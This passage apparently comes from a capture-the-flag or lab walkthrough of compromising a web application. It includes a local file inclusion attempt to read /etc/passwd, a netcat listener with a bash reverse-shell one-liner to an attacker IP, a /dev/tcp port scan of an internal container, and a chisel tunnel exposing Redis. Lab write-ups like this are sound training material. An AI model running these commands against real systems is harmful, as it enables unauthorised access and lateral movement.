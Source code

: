 ```php
function incrCounter() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits"
```

	firefox http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=incr%20hits	// after we visit this
	firefox http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=get%20hits		// this gets incremented

```
4
```

```
/*
* TODO
*
* 	1. Share the web folder with the database container (Done)
* 	2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
* 	...Still don't know how to complete it...
*/
```

```php
function backupDatabase() {
	$.ajax({
		url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=..."
```
										
Let's try #2 and see if we can access files using LFI:

	firefox http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?backup=/etc/passwd	// we don't get anything

The note says that the web folder and the database container are shared so let's try to access the database server. It's probably 172.19.0.2. Let's open another reverse shell:

	nc -lvnp 7001
	bash -c "bash -i >& /dev/tcp/10.10.16.12/7001 0>&1"

Modify portscan.sh

```bash
for port in $(seq 0 65535); do
        (echo w00t > /dev/tcp/172.19.0.2/$port && echo "Open: $port") 2> /dev/null
done
```

	<Enter>
	<Enter>

```
Open: 6379
```

Restart our chisel client to open port 6379:

	./chisel client --fingerprint sw4f8cHIX6F/7wUx6dJ8V36X4MgxLcl4tOwymk+6NgI= 10.10.16.12:8000 R:127.0.0.1:6379:172.19.0.3:6379
